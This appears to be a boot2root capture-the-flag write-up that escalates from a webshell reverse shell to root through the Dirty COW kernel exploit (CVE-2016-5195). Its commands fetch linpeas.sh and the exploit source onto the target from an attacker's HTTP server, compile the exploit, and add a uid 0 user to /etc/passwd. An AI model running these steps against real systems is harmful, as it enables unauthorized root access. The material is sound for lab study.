


# Writeup 2 - kernel exploit
This writeup start using the same road as the writeup 1.\
Let's go forward after obtaining the reverse shell from the webshell in the forum.


<center>Reverse shell from webshell in the forum</center>

\
We used [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) to enumerate the target machine vulnerabilities.

First we need to send the script to the boot2root machine.
```bash
# on kali machine
python -m http.server 9090
# on boot2root vm
wget http://<kali ip>/linpeas.sh 
```

`sh linpeas.sh`

After the result inspection, we notine a highly probable vulnerability that can lead to a privilege escalation.


<center> Disclosure of a potential kernel vulnerability  </center>


## Dirtycow - CVE-2016-5195

A race condition was found in the way the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings. An unprivileged local user could exploit this vulnerability to gain write access to otherwise read-only memory mappings and thus obtain the highest privileges on the system. 

[More details about the vulnerability](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2016-5195)

We used the following [poc](https://github.com/firefart/dirtycow) to add a new user in the **/etc/passwd** file.


First we need to send the exploit to the boot2root machine.
```bash
# on kali machine
python -m http.server 9090
# on boot2root vm
wget http://<kali ip>/dirty.c
```

Then we can compile the exploit and run it.

`gcc -pthread dirty.c -o dirtycow -lcrypt`

This exploit will automatically generates a new passwd line. The user will be prompted for the new password when the binary is run. The original /etc/passwd file is then backed up to /tmp/passwd.bak and overwrites the root account with the generated line. After running the exploit we should be able to login with the newly created user.


<center>Run the exploit with <strong>firefart:test</strong> credentials </center>

We can now login to the new root user added.

`su firefart`

And voila ! We now can go to root's home and we find a README congratulating us.


<center> Login on <strong>firefart</strong> with uid=0 </center>